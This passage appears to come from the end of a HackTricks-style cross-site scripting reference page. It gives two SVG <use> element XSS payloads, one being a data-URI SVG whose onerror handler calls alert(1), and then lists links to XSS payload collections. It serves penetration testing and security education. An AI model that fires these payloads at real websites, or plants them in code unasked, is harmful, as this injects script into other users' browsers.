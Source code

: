 ```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x" /></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```

Find **more SVG payloads in** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Misc JS Tricks & Relevant Info

{{#ref}}
other-js-tricks.md
{{#endref}}

## XSS resources

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
- [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
- [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
- [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
- [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)
- [https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide](https://www.intigriti.com/researchers/blog/hacking-tools/hunting-for-blind-cross-site-scripting-xss-vulnerabilities-a-complete-guide)

{{#include ../../banners/hacktricks-training.md}}
